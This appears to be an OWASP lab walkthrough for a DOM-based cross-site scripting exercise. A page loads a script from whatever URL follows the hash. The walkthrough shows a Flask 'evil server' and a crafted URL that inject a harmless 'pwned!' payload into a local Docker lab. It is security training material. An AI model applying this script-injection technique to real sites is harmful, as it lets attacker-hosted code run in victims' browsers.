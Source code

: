 # Cross Site Scripting \(DOM-2\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-xss-dom2
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-xss-dom2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

The application shows no input field or anything else we can interact with. Let's inspect the source code.

![](../../.gitbook/assets/python/XSS-DOM-2/1.png)

Inspecting the source code of the application.

![](../../.gitbook/assets/python/XSS-DOM-2/2.png)

```javascript
function loadWelcomeMessage() {
  setTimeout(function () {
    endpoint = location.hash.slice(5);
    var script = document.createElement("script");
    if (endpoint) {
      script.src = endpoint + "/js/welcome.js";
    } else {
      script.src = "/js/welcome.js";
    }
    document.head.appendChild(script);
  }, 2000);
}
```

We notice the application imports javascript files into the application using this function.

```javascript
endpoint = location.hash.slice(5);
```

Declaring endpoint variable which takes the url, whatever is after the hash(#) and using slice to remove the first 4 characters after that. If the endpoint exists it will load the js file from there.

![](../../.gitbook/assets/python/XSS-DOM-2/3.png)

## Exploitation

We can start building our malicious server and server the application with our malicious js file.

```python
from flask import Flask

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<path:path>")
def static_file(path):
    return app.send_static_file(path)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)

```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be python flask.

```text
$ pip3 install flask
```

Now we need to create our malicous js file, save the following snippet code into /static/js/welcome.js

```javascript
document.getElementsByClassName("panel-body")[0].innerText = "pwned!";
```

We are ready to start our server:

```text
$ python3 evil_server.py
```

![](../../.gitbook/assets/python/XSS-DOM-2/4.png)

Now we can serve our malicious js file to the application

```text
http://0.0.0.0:5000/#xxxxhttp://0.0.0.0:1337
```

![](../../.gitbook/assets/python/XSS-DOM-2/5.png)

## Additional sources

Please refer to the OWASP testing guide for a full complete description about cross site scripting!

{% embed url="https://owasp.org/www-community/attacks/XSS-DOM-2/" %}
